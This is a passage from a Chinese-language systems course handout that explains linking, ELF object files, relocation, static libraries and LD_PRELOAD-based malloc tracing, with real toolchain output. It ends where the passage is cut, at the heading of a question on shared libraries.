修正的办法是让包装函数能识别“自己正在被自己间接调用”，这时只转发、不打印。下面的版本加了一个线程局部的标志变量 busy（free 的包装函数同样处理）：
static __thread int busy; /* 非 0 表示正在包装函数内部 */
void *malloc(size_t size)
{
void *(*mallocp)(size_t size);
char *error;
mallocp = dlsym(RTLD_NEXT, "malloc");
if ((error = dlerror()) != NULL) {
fputs(error, stderr);
exit(1);
}
char *ptr = mallocp(size);
if (!busy) { /* 只有最外层的调用才打印 */
busy = 1;
printf("malloc(%d) = %p\n", (int)size, ptr);
busy = 0;
}
return ptr;
}用修正后的库在默认环境上运行，得到预期的输出：
linux> LD_PRELOAD=./mymalloc.so ./intr 10 100 1000
malloc(10) = 0x55e0af4c32a0
free(0x55e0af4c32a0)
malloc(100) = 0x55e0af4c42d0
free(0x55e0af4c42d0)
malloc(1000) = 0x55e0af4c4340
free(0x55e0af4c4340)运行时打桩的威力在于它对任何动态链接的可执行文件都有效，哪怕没有它的源代码和目标文件（p.64）。课件的例子是用它跟踪 gcc 本身：env LD_PRELOAD=./mymalloc.so gcc -c int.c。实测对系统命令 uname 打桩，在正常输出“Linux”之前多出了两行 malloc 的跟踪信息。反过来，静态链接的程序不经过动态链接器，LD_PRELOAD 对它不起作用：把 int.c 用 -static 编译后同样运行，没有任何跟踪输出。
⚠ 课件 p.63、p.64 命令末尾多余的括号
p.63 的 env LD_PRELOAD=./mymalloc.so ./intr 10 100 1000) 和 p.64 的 env LD_PRELOAD=./mymalloc.so gcc -c int.c) 末尾各多了一个右括号，输入命令时应去掉。它们是从 Makefile 中带括号的写法 (LD_PRELOAD="./mymalloc.so" ./intr 10 100 1000) 改写时留下的；Makefile 里用括号是为了让环境变量只对这一条命令生效。另外，p.64 的回顾中列有“Link Time”一项，但 2026 版课件已经没有讲它的页面，内容见上文。
表 11把三种做法并排比较（p.64）。
表 11 三种库打桩方式的比较
| 时机 | 机制 | 包装函数的名字与调用真函数的办法 | 需要什么 |
|---|---|---|---|
| 编译时 | 预处理器：-I. 让本地的 malloc.h 先于系统头文件被找到，宏把 malloc 换成 mymalloc | mymalloc、myfree；直接调用 malloc、free（编译包装函数时不加 -I.） | 源代码，重新编译 |
| 链接时 | 静态链接器：--wrap malloc 把 malloc 解析成 __wrap_malloc，把 __real_malloc 解析成 malloc | __wrap_malloc、__wrap_free；调用 __real_malloc、__real_free | 可重定位目标文件，重新链接 |
| 加载和运行时 | 动态链接器：LD_PRELOAD 指定的共享库最先被搜索 | malloc、free（与库函数同名）；用 dlsym(RTLD_NEXT, ...) 取得库函数的地址 | 只需可执行文件，且它必须是动态链接的 |
第二部分 小班研讨题解答（第 15 讲）#
两套研讨题的页码与 2026 版课件一致。第一部分已经完整讲过的内容，这里给出要点并注明小节；题目要求“设计新的程序示例”“用自己的程序示例重现”的部分，讲义给出新设计的例子，以及默认环境上各个工具的实际输出。
研讨题 1：目标文件、符号解析与重定位#
1（1）基于课件第 4 页及后续内容，设计一个新的程序示例，单独使用工具链中的 cpp/cc1/as 等工具（或用 gcc 加相应选项），展示每一步生成的结果。
新设计的例子由一个头文件和两个源文件组成，特意包含了后面几问要用到的各种成分：宏、自己写的头文件、已初始化的全局变量 base、未初始化的全局变量 calls、字符串常量、跨文件的函数调用和库函数调用。
/* scale.h */
#define FACTOR 3
int scale(int x);
/* demo.c */ /* scale.c */
#include <stdio.h> #include "scale.h"
#include "scale.h"
int calls; /* 未初始化的全局变量 */
int base = 14; /* 已初始化的全局变量 */
int scale(int x)
int main(void) {
{ calls++;
printf("scale(%d) = %d\n", return x * FACTOR;
base, scale(base)); }
return 0;
}第一步是预处理，直接运行 cpp（与 gcc -E demo.c -o demo.i 等价）。demo.c 只有十行左右，demo.i 有 826 行、21,399 字节，绝大部分是 stdio.h 展开的内容。文件末尾是 scale.h 的内容和原来的代码；scale.c 的预处理结果很短，可以看到宏 FACTOR 已经被换成 3，以 # 开头的行是预处理器留下的行号标记，供编译器报错时指明原始位置。
linux> cpp demo.c -o demo.i
linux> grep -n "printf (const" demo.i
476:extern int printf (const char *__restrict __format, ...);
linux> tail -9 demo.i
# 3 "demo.c" 2
int base = 14;
int main(void)
{
printf("scale(%d) = %d\n", base, scale(base));
return 0;
}
linux> cpp scale.c | grep -v "^#"
int scale(int x);
int calls;
int scale(int x)
{
calls++;
return x * 3;
}第二步是编译。cc1 不在通常的命令搜索路径里，用 gcc -print-prog-name=cc1 查到它的位置（默认环境上是 /usr/libexec/gcc/x86_64-linux-gnu/13/cc1），然后直接运行。这里加了 -Og -fno-pie 等选项，让生成的汇编与课件的风格一致（后两个选项去掉 endbr64 指令和 .cfi 伪指令）。
linux> /usr/libexec/gcc/x86_64-linux-gnu/13/cc1 -quiet -Og -fno-pie \
-fcf-protection=none -fno-asynchronous-unwind-tables demo.i -o demo.s
linux> cat demo.s （省略了 .file、.type、.size、.ident 等伪指令）
.section .rodata.str1.1,"aMS",@progbits,1
.LC0:
.string "scale(%d) = %d\n"
.text
.globl main
main:
subq $8, %rsp
movl base(%rip), %edi
call scale
movl %eax, %edx
movl base(%rip), %esi
movl $.LC0, %edi
movl $0, %eax
call printf
movl $0, %eax
addq $8, %rsp
ret
.globl base
.data
.align 4
base:
.long 14汇编文件是纯文本，516 字节。可以看到三样东西被安排进了三个节：格式串在只读数据节，main 的代码在 .text，base 在 .data 并带着初值 14。scale、printf、base、.LC0 在指令里都只是名字。对 scale.c 做同样的处理，得到的 scale.s 把 calls 放在 .bss 节（.bss、calls: .zero 4），scale 的函数体只有三条指令：addl $1, calls(%rip)、leal (%rdi,%rdi,2), %eax、ret，乘以 3 被强度削减成了一条 lea（第 14 讲）。
第三步是汇编，运行 as。得到的 demo.o 是 1,304 字节的二进制文件，file 命令报告它是可重定位目标文件。
linux> as demo.s -o demo.o
linux> as scale.s -o scale.o
linux> file demo.o
demo.o: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), not stripped
linux> objdump -dr demo.o
0000000000000000 <main>:
0: 48 83 ec 08 sub $0x8,%rsp
4: 8b 3d 00 00 00 00 mov 0x0(%rip),%edi # a <main+0xa>
6: R_X86_64_PC32 base-0x4
a: e8 00 00 00 00 call f <main+0xf>
b: R_X86_64_PLT32 scale-0x4
f: 89 c2 mov %eax,%edx
11: 8b 35 00 00 00 00 mov 0x0(%rip),%esi # 17 <main+0x17>
13: R_X86_64_PC32 base-0x4
17: bf 00 00 00 00 mov $0x0,%edi
18: R_X86_64_32 .rodata.str1.1
1c: b8 00 00 00 00 mov $0x0,%eax
21: e8 00 00 00 00 call 26 <main+0x26>
22: R_X86_64_PLT32 printf-0x4
26: b8 00 00 00 00 mov $0x0,%eax
2b: 48 83 c4 08 add $0x8,%rsp
2f: c3 ret汇编指令已经变成了机器码，五处引用全局符号的地方都填着 0，各带一个重定位条目，第（7）问再回来处理它们。
第四步是链接。最省事的办法是让 gcc 代劳：gcc -no-pie -o demo demo.o scale.o，运行 ./demo 输出 scale(14) = 42。如果想亲手运行 ld，就必须把 gcc 自动添加的东西都写出来，否则会失败：
linux> ld -o demo demo.o scale.o
ld: warning: cannot find entry symbol _start; defaulting to 0000000000401000
ld: demo.o: in function `main':
demo.i:(.text+0x22): undefined reference to `printf'
linux> ld -o demo -dynamic-linker /lib64/ld-linux-x86-64.so.2 \
/usr/lib/x86_64-linux-gnu/crt1.o /usr/lib/x86_64-linux-gnu/crti.o \
demo.o scale.o -lc /usr/lib/x86_64-linux-gnu/crtn.o
linux> ./demo
scale(14) = 42第一次尝试的两条报错正好说明了 gcc 替我们做了什么：没有 crt1.o 就没有入口 _start（15.9 节），没有 -lc 就找不到 printf。第二条命令补上了启动文件 crt1.o、crti.o、crtn.o，C 库，以及动态链接器的路径。用 gcc -v 可以看到驱动程序实际执行的完整命令，它依次调用 cc1（如今预处理已经并入 cc1，不再单独运行 cpp）、as 和 collect2；collect2 是 ld 的一层包装，它的参数除了上面这些，还有 crtbegin.o、crtend.o 和 libgcc 等。
说明：直接用 gcc -S 时看到的 __printf_chk
在默认环境（Ubuntu）上，如果不单独运行 cc1，而是用 gcc -Og -S demo.c，生成的汇编里调用的是 __printf_chk 而不是 printf。这是因为 Ubuntu 的 gcc 驱动程序在打开优化时默认加上 -D_FORTIFY_SOURCE，stdio.h 据此把 printf 换成带额外检查的版本。这不影响本题的结论；想得到与课件一致的名字，可以像上面那样直接运行 cc1，或者给 gcc 加上 -U_FORTIFY_SOURCE。
1（2）参照课件第 7 页，使用 readelf 读取之前生成的目标代码，展示并讲解对应内容。
课件 p.7 用 readelf 和 objdump 查看了三样东西：字符串所在的 .rodata 节、main 的符号表条目、main 的机器代码。对上一问的 demo.o 和 demo 做同样的事，先看可重定位目标文件，再看可执行文件，两相对照，汇编器和链接器各做了什么就一目了然。
linux> readelf -h demo.o （节选）
Class: ELF64
Data: 2's complement, little endian
Type: REL (Relocatable file)
Machine: Advanced Micro Devices X86-64
Entry point address: 0x0
Number of program headers: 0
Start of section headers: 600 (bytes into file)
Number of section headers: 11
linux> readelf -S -W demo.o （节选）
[Nr] Name Type Address Off Size ES Flg
[ 1] .text PROGBITS 0000000000000000 000040 000030 00 AX
[ 2] .rela.text RELA 0000000000000000 000180 000078 18 I
[ 3] .data PROGBITS 0000000000000000 000070 000004 00 WA
[ 4] .bss NOBITS 0000000000000000 000074 000000 00 WA
[ 5] .rodata.str1.1 PROGBITS 0000000000000000 000074 000010 01 AMS
[ 8] .symtab SYMTAB 0000000000000000 0000b8 0000a8 18
linux> readelf -s demo.o
Num: Value Size Type Bind Vis Ndx Name
2: 0000000000000000 0 SECTION LOCAL DEFAULT 5 .rodata.str1.1
3: 0000000000000000 48 FUNC GLOBAL DEFAULT 1 main
4: 0000000000000000 4 OBJECT GLOBAL DEFAULT 3 base
5: 0000000000000000 0 NOTYPE GLOBAL DEFAULT UND scale
6: 0000000000000000 0 NOTYPE GLOBAL DEFAULT UND printf
linux> readelf -x .rodata.str1.1 demo.o
0x00000000 7363616c 65282564 29203d20 25640a00 scale(%d) = %d..ELF 头说明这是一个 64 位、小端、x86-64 的可重定位文件，没有入口点，没有程序头，节头部表在文件第 600 字节处、共 11 项。节头部表中，.text 长 0x30 = 48 字节，与符号表里 main 的 Size 一致；.data 长 4 字节，就是 base；格式串在只读数据节 .rodata.str1.1 中，长 0x10 = 16 字节（15 个字符加结尾的 0），用 -x 选项可以把它的内容按十六进制和字符两种形式打印出来；.rela.text 长 0x78 = 120 字节，即 5 个重定位条目。所有节的 Address 都是 0。符号表中，main 和 base 是本模块定义的全局符号，Value 是它们在各自节中的偏移 0；scale 和 printf 是 UND。
对链接后的 demo 重复这些命令：
linux> readelf -h demo （节选）
Type: EXEC (Executable file)
Entry point address: 0x401040
Number of program headers: 13
linux> readelf -S -W demo （节选）
[14] .text PROGBITS 0000000000401040 001040 000121 00 AX
[16] .rodata PROGBITS 0000000000402000 002000 000014 00 A
[24] .data PROGBITS 0000000000404008 003008 000014 00 WA
[25] .bss NOBITS 000000000040401c 00301c 00000c 00 WA
linux> readelf -s demo （与本题有关的四行）
0000000000401126 48 FUNC GLOBAL DEFAULT 14 main
0000000000401156 11 FUNC GLOBAL DEFAULT 14 scale
0000000000404018 4 OBJECT GLOBAL DEFAULT 24 base
0000000000404020 4 OBJECT GLOBAL DEFAULT 25 calls
linux> readelf -x .rodata demo
0x00402000 01000200 7363616c 65282564 29203d20 ....scale(%d) =
0x00402010 25640a00 %d..文件类型变成了 EXEC，有了入口点和 13 个程序头。每个节都有了运行时地址：.text 在 0x401040，.rodata 在 0x402000，.data 在 0x404008，.bss 在 0x40401c。demo.o 和 scale.o 的 .text 被合并进了同一个 .text 节，main 在 0x401126，scale 紧随其后在 0x401156；base 在 .data 中，calls 在 .bss 中；格式串在 .rodata 的 0x402004 处（前 4 个字节 01 00 02 00 来自启动文件）。这与课件 p.7 中“字符串位于 .rodata 的 0x495d44、main 位于 0x401190”是同一类信息。
1（3）基于课件第 8～10 页，讲解静态链接的简要过程，然后分析链接带来的好处。
静态链接的过程见 15.2 节和图 1（b）。以上一问的程序为例：驱动程序对 demo.c 和 scale.c 分别运行翻译器（cpp、cc1、as），得到两个可重定位目标文件 demo.o 和 scale.o，每个文件里的代码和数据都从地址 0 开始，对其他模块的引用都空着；然后链接器 ld 以这两个文件和系统的启动文件、C 库为输入，完成两件事。一是符号解析：demo.o 中未定义的 scale 对应到 scale.o 的定义，printf 对应到 C 库的定义。二是重定位：把各个输入文件的 .text、.data 等节分别合并，为每个节和符号分配运行时地址（上一问看到的 0x401126、0x404018 等），再根据重定位条目把代码和数据中所有空着的引用填成正确的值。输出是完全链接的可执行目标文件，可以直接加载运行。
链接带来的好处有两方面（p.9–10）。一是模块化：程序可以分成多个较小的源文件来写，而不是一个庞然大物；通用的函数可以收集成库，被许多程序复用。在多人合作的项目里，各人可以同时修改不同的源文件而互不干扰。二是效率。时间上，分别编译使得改动一个源文件之后只需重新编译这一个文件再重新链接，不必重新编译其他文件；多个文件还可以并行编译。就上面的例子来说，改了 scale.c，只需要重新生成 scale.o 再链接，demo.c 那 826 行预处理结果不用再编译一遍。空间上，库把常用函数集中在一个文件里：静态链接时，可执行文件和内存映像中只包含实际用到的库代码；动态链接时，可执行文件不含库代码，运行时所有进程共享一份。
1（4）基于课件第 11～12 和 19～20 页，讲解链接器的符号解析要做什么，然后用自己的程序示例，重现第 12 页下半部分的操作。
符号解析要做的事情见 15.2 和 15.4 节，可以概括成三句话。每个可重定位目标模块都有一张符号表，记录它定义的符号和引用的符号；站在一个模块的角度，符号分三类：本模块定义的全局符号、本模块引用而由别的模块定义的外部符号、只在本模块内可见的局部符号（static 函数和 static 变量），函数里的普通局部变量不是链接器符号。链接器的任务是把每个符号引用与输入的所有模块中恰好一个符号定义关联起来：找不到定义，报“undefined reference”；找到多个定义，按强弱符号的规则处理（15.5 节）。
用第（1）问的程序重现课件 p.12 下半部分的操作：
linux> gcc -c -o demo.o demo.c
linux> gcc -c -o scale.o scale.c
linux> nm demo.o
0000000000000000 D base
0000000000000000 T main
U printf
U scale
linux> nm scale.o
0000000000000000 B calls
0000000000000000 T scaledemo.o 定义了两个全局符号：base 在已初始化数据节（D），main 在代码节（T）；引用了两个外部符号 printf 和 scale（U）。scale.o 定义了 scale（T）和 calls，后者是未初始化的全局变量，位于 .bss（B）。符号解析时，demo.o 的 U scale 与 scale.o 的 T scale 配对，U printf 要到 C 库里去找。printf 的格式串和局部的标号 .LC0 没有出现在 nm 的输出里。课件上“函数声明不会产生符号表条目”的现象也可以重现：在 demo.c 里加一行 int scale2(int x); 而不调用它，nm 的输出没有任何变化；一旦在 main 里调用 scale2，输出中就多出一行 U scale2，这时链接会因找不到定义而失败。字母的大小写也有含义：大写表示全局符号，小写表示局部符号，例如 15.4 节的 static-local.o 中三个静态变量显示为 d x、d x.0、d x.1。
1（5）基于课件第 21～25 页，分析链接器对不同类型的重复符号的解决方法。
先要分清“重复”发生在哪一类符号上。如果重名的是局部符号（static 函数、static 全局变量、函数内的 static 变量），根本不存在冲突：它们只在各自的模块内可见，不同模块里的同名局部符号是互不相干的对象。即使在同一个模块里，课件 p.21 的三个静态变量 x 也各有自己的存储空间和唯一的符号名（15.4 节实测为 x、x.1、x.0）。
如果重名的是全局符号，就要看强弱（15.5 节）。函数和已初始化的全局变量是强符号，未初始化的全局变量是弱符号。两个强符号重名，链接器报错（规则 1）；一强多弱，选强符号，所有引用都指向它（规则 2）；多个弱符号，任选一个（规则 3）。课件 p.24 的五组例子及其实测结果见表 5。归纳起来，同名的两个定义之间有四种组合：两个函数，报错；一个已初始化的变量和一个未初始化的变量，前者胜出；两个未初始化的变量，合并成一个；两个已初始化的变量，报错。
需要强调的有三点。其一，链接器只按名字匹配，不检查类型，规则 2 和规则 3 在类型不一致时会造成一个模块悄悄破坏另一个模块的数据，图 3是实测的例子。其二，在 gcc 10 及以后的版本上，未初始化的全局变量默认也按强符号处理（-fno-common），重名一律报错；课件描述的传统行为需要加 -fcommon 才能重现。其三，带 extern 的声明不是定义，不参与上述规则。避免这类问题的编程习惯是课件 p.25 的五条：少用全局变量，多用 static，非 static 的名字都在头文件中声明并处处包含，头文件里的声明一律加 extern，无参数的函数写 (void)。
1（6）基于课件第 14～18 页和第 37 页，讲解统一实现三种目标文件的 ELF 格式，逐节讲解用途。
三种目标文件（可重定位、可执行、共享）用的是同一种 ELF 格式，区别只在于有哪些部分。整体结构都是：ELF 头在最前面，节头部表在最后面，中间是各个节，可执行文件和共享目标文件在 ELF 头之后还有程序头部表。ELF 头中的 Type 字段区分三种文件（REL、EXEC、DYN）。同一个文件有链接视图（按节，由节头部表描述）和执行视图（按段，由程序头部表描述）两种读法，15.3 节已经说明。各节的用途在表 3中逐一讲过，这里把三种文件实际包含的节放在一起比较。表 12是对第（1）问的 demo.o、demo 和 15.11 节的 libvector.so 用 readelf 实测后的归纳。
表 12 三种 ELF 目标文件的比较（默认环境实测）
| 项目 | 可重定位（demo.o） | 可执行（demo） | 共享（libvector.so） |
|---|---|---|---|
| ELF 头的 Type | REL | EXEC（默认的位置无关可执行文件显示为 DYN） | DYN |
| 入口点 | 无（0） | 有（0x401040，即 _start） | 无（0） |
| 程序头部表 | 无 | 有，13 项 | 有，11 项 |
| 节头部表 | 有，必需 | 有，可选 | 有，可选 |
| .text、.rodata、.data、.bss | 有，地址为 0 | 有，已分配运行时地址 | 有，地址是相对库起点的偏移 |
| .rela.text、.rela.data | 有（待处理的重定位条目） | 无，已全部处理 | 无 |
| .symtab、.strtab | 有 | 有（可用 strip 删除） | 有（可用 strip 删除） |
| .init、.fini | 无 | 有 | 有 |
| .interp | 无 | 有（动态链接时） | 无 |
| .dynamic、.dynsym、.dynstr | 无 | 有（动态链接时） | 有 |
| .plt、.got、.got.plt | 无 | 有（动态链接时） | 有 |
| .rela.dyn、.rela.plt | 无 | 有（留给动态链接器处理的重定位条目） | 有（本例只有 .rela.dyn） |
表中后几行是动态链接用到的节（15.12、15.13 节）：.interp 存放动态链接器的路径；.dynamic 列出依赖的库等信息；.dynsym 和 .dynstr 是动态链接器使用的符号表和字符串表，只包含需要在运行时解析的符号，不能被 strip 删掉；.plt 和 .got 是过程链接表和全局偏移量表；.rela.dyn 和 .rela.plt 是加载时或运行时由动态链接器处理的重定位条目。
课件 p.37 展示的是可执行文件怎样对应到内存（15.9 节，图 6）。程序头部表把若干个节归成段：.init、.text、.rodata 等构成只读的代码段，.data、.bss 构成可读写的数据段，加载器把这两个段映射到进程的地址空间；.symtab、.debug、.line、.strtab 和节头部表不被加载，它们只供链接器和调试器使用。运行时的栈、堆和共享库映射区域都不来自可执行文件，而是在运行时创建的。
1（7）基于课件第 26～36 页，详细讲解两种最常见的重定位标签的用法，从工具链的视角逐步讲解从识别要重定位的位置、到生成重定位标签、最后重定位填充信息的过程。
两种重定位类型的含义和计算公式见 15.7 节的表 6：R_X86_64_PC32 用于 PC 相对引用，填入的值是 S + A − P；R_X86_64_32 用于绝对引用，填入的值是 S + A。课件 p.30–36 的例子在 15.8 节已经完整算过。这里沿着工具链的顺序，用第（1）问的 demo 程序把“识别、生成、填充”三个环节再走一遍，这个例子比课件的多了对全局变量的 PC 相对访问和对共享库函数的调用。
识别发生在编译和汇编阶段。编译器生成的 demo.s 中，凡是用名字指代地址的地方都是潜在的重定位位置：movl base(%rip), %edi 和 movl base(%rip), %esi 用 PC 相对方式读全局变量 base；call scale 和 call printf 的目标要编码成 PC 相对偏移；movl $.LC0, %edi 把格式串的绝对地址作为立即数。汇编器逐条翻译指令时，遇到本节内部就能确定的引用（如函数内的跳转）当场算出偏移；遇到上面这五处，它既不知道 base、scale、printf 将来在哪里，也不知道本模块的 .text 和 .rodata 会被放到哪里，于是在指令里留下 4 个字节的 0。
生成也由汇编器完成。每留一处空，汇编器就在 .rela.text 节里写一个 24 字节的条目，记下位置、符号、类型和加数：
linux> readelf -r demo.o
Relocation section '.rela.text' at offset 0x180 contains 5 entries:
Offset Info Type Sym. Value Sym. Name + Addend
000000000006 000400000002 R_X86_64_PC32 0000000000000000 base - 4
00000000000b 000500000004 R_X86_64_PLT32 0000000000000000 scale - 4
000000000013 000400000002 R_X86_64_PC32 0000000000000000 base - 4
000000000018 00020000000a R_X86_64_32 0000000000000000 .rodata.str1.1 + 0
000000000022 000600000004 R_X86_64_PLT32 0000000000000000 printf - 4以第一条为例：Offset = 6 是 mov 指令中位移量字段的位置（指令从偏移 4 开始，操作码和 ModRM 占 2 字节）；Info 的高 32 位 4 是 base 在符号表中的序号（第（2）问的 readelf -s 输出中 base 正是第 4 项），低 32 位 2 是 R_X86_64_PC32 的编号；加数 −4 是因为位移量字段之后紧接着就是下一条指令。格式串没有全局的名字，汇编器就以它所在的节 .rodata.str1.1 为符号（符号表第 2 项，类型 SECTION），加数 0 表示“该节起点之后 0 字节处”。两个 call 的类型是 R_X86_64_PLT32，在这里可以当作 PC32 来理解（15.8 节的常见问题）。
填充由链接器完成，分两步。第一步合并各节并分配地址，结果在第（2）问已经看到：main 在 0x401126（这也是 demo.o 的 .text 节的地址），scale 在 0x401156，base 在 0x404018，格式串在 0x402004；printf 定义在共享库 libc.so 中，链接器为它建了一个 PLT 条目，地址是 0x401030。第二步逐条处理重定位条目，表 13列出每一条的计算。
表 13 链接器对 demo.o 的五个重定位条目的计算（ADDR(.text) = 0x401126）
| 偏移 | 符号与类型 | 被修改位置的地址 P | 填入的值 | 写入的字节 |
|---|---|---|---|---|
| 0x6 | base，PC32 | 0x401126 + 0x6 = 0x40112c | 0x404018 − 4 − 0x40112c = 0x2ee8 | e8 2e 00 00 |
| 0xb | scale，PLT32 | 0x401126 + 0xb = 0x401131 | 0x401156 − 4 − 0x401131 = 0x21 | 21 00 00 00 |
| 0x13 | base，PC32 | 0x401126 + 0x13 = 0x401139 | 0x404018 − 4 − 0x401139 = 0x2edb | db 2e 00 00 |
| 0x18 | 格式串，32 | （绝对引用，不需要 P） | 0x402004 + 0 = 0x402004 | 04 20 40 00 |
| 0x22 | printf，PLT32 | 0x401126 + 0x22 = 0x401148 | 0x401030 − 4 − 0x401148 = −0x11c，即 0xfffffee4 | e4 fe ff ff |
把计算结果与链接器实际生成的代码对照，五处完全一致：
linux> objdump -d demo
0000000000401126 <main>:
401126: 48 83 ec 08 sub $0x8,%rsp
40112a: 8b 3d e8 2e 00 00 mov 0x2ee8(%rip),%edi # 404018 <base>
401130: e8 21 00 00 00 call 401156 <scale>
401135: 89 c2 mov %eax,%edx
401137: 8b 35 db 2e 00 00 mov 0x2edb(%rip),%esi # 404018 <base>
40113d: bf 04 20 40 00 mov $0x402004,%edi
401142: b8 00 00 00 00 mov $0x0,%eax
401147: e8 e4 fe ff ff call 401030 <printf@plt>
40114c: b8 00 00 00 00 mov $0x0,%eax
401151: 48 83 c4 08 add $0x8,%rsp
401155: c3 ret这张表里有几处值得体会。同一个符号 base 被引用了两次，两个重定位条目的类型和加数都相同，但因为两条指令的位置不同，填入的值不同（0x2ee8 和 0x2edb），加上各自下一条指令的地址（0x401130 和 0x40113d）之后，得到的都是 0x404018。对 printf 的调用是向低地址跳转，偏移是负数，按补码写成 0xfffffee4。绝对引用填进去的就是地址本身，不随指令的位置变化；它的前提是地址能用 32 位表示，而且程序每次都加载到同一位置，所以只出现在用 -fno-pie 编译的代码里。
研讨题 2：库、动态链接与库打桩#
2（1）基于课件第 38～40 页，分析库的作用和静态库的生成方法。
库要解决的问题是：怎样把程序员常用的一组函数（数学、输入输出、内存管理、字符串处理等）打包提供给所有程序使用（15.10 节）。在只有“目标文件加链接器”的框架下，两种直接的做法都不理想。把所有函数放进一个源文件、编译成一个大目标文件，每个程序都要链接整个大文件，可执行文件里塞满了用不到的代码，任何一个函数的修改都要重新编译全部函数。每个函数一个源文件、各自编译成 .o，空间上最省，但程序员必须在命令行上逐个写出要用的 .o 文件，既繁琐又容易出错。
静态库兼顾了两者：相关的目标文件各自编译，然后打包成一个带索引的存档文件（.a）；链接器得到增强，能够在存档里按需查找，只把解析了未定义引用的那些成员复制进可执行文件。对使用者来说，命令行上只需给出库名；对可执行文件来说，只包含真正用到的模块；对库的维护者来说，某个函数改了只需重新编译它所在的源文件并替换存档里对应的成员。
生成静态库分两步：先把各个源文件编译成可重定位目标文件，再用归档工具 ar 把它们收进存档。以课件的向量库为例：
linux> gcc -Og -c addvec.c multvec.c
linux> ar rs libvector.a addvec.o multvec.o
linux> ar -tv libvector.a
rw-r--r-- 0/0 1240 Dec 31 19:00 1969 addvec.o
rw-r--r-- 0/0 1248 Dec 31 19:00 1969 multvec.o
linux> nm -s libvector.a
Archive index:
addvec in addvec.o
multvec in multvec.oar 的选项 r 表示插入成员（同名则替换），s 表示写入符号索引；常见的写法 ar rcs 中多出的 c 只是在存档不存在时不打印提示。ar -t 列出成员，nm -s 打印存档开头的索引，链接器正是靠这张“符号在哪个成员里”的索引快速判断该取哪个成员。存档本身的格式非常简单：一个 8 字节的标志串 !<arch> 加换行，后面是一个个成员，每个成员前有一个记录文件名、时间、大小的头部。
2（2）拓展研讨：参考 41 页，尝试解开若干常见库，展示其内容。
在默认环境上查看 C 标准库和数学库的静态版本：
linux> ls -l /usr/lib/x86_64-linux-gnu/libc.a
-rw-r--r-- 1 root root 6136944 ... /usr/lib/x86_64-linux-gnu/libc.a
linux> ar -t /usr/lib/x86_64-linux-gnu/libc.a | wc -l
2211
linux> ar -t /usr/lib/x86_64-linux-gnu/libc.a | \
grep -E "^(printf|fprintf|scanf|atoi|malloc|strlen|fork)\.o"
atoi.o
fprintf.o
printf.o
scanf.o
malloc.o
strlen.o
fork.o
linux> cat /usr/lib/x86_64-linux-gnu/libm.a
/* GNU ld script
*/
OUTPUT_FORMAT(elf64-x86-64)
GROUP ( /usr/lib/x86_64-linux-gnu/libm-2.39.a /usr/lib/x86_64-linux-gnu/libmvec.a )
linux> ar -t /usr/lib/x86_64-linux-gnu/libm-2.39.a | wc -l
801libc.a 有 6.1 MB、2211 个成员（课件上的版本是 4.6 MB、1496 个），差不多每个库函数一个成员，名字就是函数名加 .o。libm.a 有一点意外：在这个版本的系统上它不是存档，而是一个 132 字节的文本文件，是写给链接器的脚本，让链接器去读真正的存档 libm-2.39.a（2.6 MB、801 个成员，课件上是 2 MB、444 个）和向量数学库 libmvec.a。
用 ar -x 可以把指定的成员从存档中解出来，得到的就是普通的可重定位目标文件，前面学过的工具都能用：
linux> ar -x /usr/lib/x86_64-linux-gnu/libc.a printf.o atoi.o
linux> ls -l printf.o atoi.o
-rw-r--r-- 1 root root 1216 ... atoi.o
-rw-r--r-- 1 root root 1592 ... printf.o
linux> nm printf.o
0000000000000000 T _IO_printf
0000000000000000 T __printf
U __stack_chk_fail
U __vfprintf_internal
0000000000000000 T printf
U stdout
linux> nm atoi.o
U __isoc23_strtol
0000000000000000 T atoi从 nm 的输出能读出不少东西。printf.o 很小（1,592 字节），它定义的三个符号 printf、__printf、_IO_printf 地址相同，是同一个函数的三个名字（课件 p.7 的反汇编里 call 的目标显示为 _IO_printf，就是这个缘故）。它自己并不做格式化，真正的工作交给另一个成员里的 __vfprintf_internal，还引用了全局变量 stdout。atoi.o 更简单，只是调用 strtol 的一个内部版本。这就解释了为什么程序只调用一个 printf，静态链接出的可执行文件却有七百多 KB：printf.o 引用 __vfprintf_internal，后者又引用几十个别的符号，依赖一层层展开。对 15.10 节的 prog2c 让链接器输出映射文件（-Wl,-Map=prog2c.map），其中“Archive member included”一节记录了每个被取用的成员以及它是因为谁的哪个引用而被取用的；统计结果是从 libc.a 的 2211 个成员中取了 418 个。数学库的成员同样可以解开，例如 e_sqrt.o 中定义的是 __ieee754_sqrt。
2（3）基于课件第 42～44 页，讲解静态库的基本原理和进行链接的主要过程。
基本原理是“存档加按需取用”，详见 15.10 节。以课件的例子说明主要过程：main2.c 调用了 libvector.a 中的 addvec 和 C 库中的 printf。命令 gcc -static -o prog2c main2.o -L. -lvector 执行时，链接器从左到右扫描输入，维护要链接的目标文件集合 E、未解析符号集合 U、已定义符号集合 D（表 8）。扫描 main2.o，把它加入 E，addvec 和 printf 进入 U。扫描 libvector.a，在索引中查到 addvec 由成员 addvec.o 定义，把 addvec.o 加入 E，addvec 从 U 移到 D；multvec.o 没有解析任何引用，不取用。扫描驱动程序自动加上的 libc.a，取出 printf.o 以及它直接和间接依赖的成员，直到 U 不再变化。此时 U 为空，链接器把 E 中的目标文件合并、重定位，输出完全链接的可执行文件。结果如图 7（b）所示：可执行文件里有 main2.o、addvec.o、printf.o 及其依赖模块的代码和数据，没有 multvec.o。
用链接器的 --trace 选项可以看到实际的扫描顺序（路径做了简化）：
linux> gcc -static -o prog2c main2.o -L. -lvector -Wl,--trace
crt1.o
crti.o
crtbeginT.o
main2.o
./libvector.a
libgcc.a
libgcc_eh.a
libc.a
libgcc.a
libgcc_eh.a
libc.a
...启动文件在最前面，然后是命令行上的 main2.o 和 libvector.a，最后是驱动程序加上的 libgcc 和 libc。libgcc.a 与 libc.a 互相依赖，所以驱动程序把它们放在一个分组里让链接器反复扫描，输出中这几个库才会重复出现，这正是 15.10 节“互相依赖的库要重复出现”的实际应用。顺便一提，默认环境上 main2.o 实际引用的符号名是 __printf_chk（原因见研讨题 1（1）的说明），不影响上述过程。
这个算法的直接后果是命令行顺序很重要（p.44）：把 -lvector 写在 main2.o 之前，扫描到库时 U 中还没有 addvec，库被整个跳过，最终报“undefined reference to addvec”。因此库应当放在命令行末尾，被依赖的库放在依赖它的库之后。
2（4）基于课件第 45～47 页，讲解共享库（动态库）的基本原理和进行链接的主要过程。
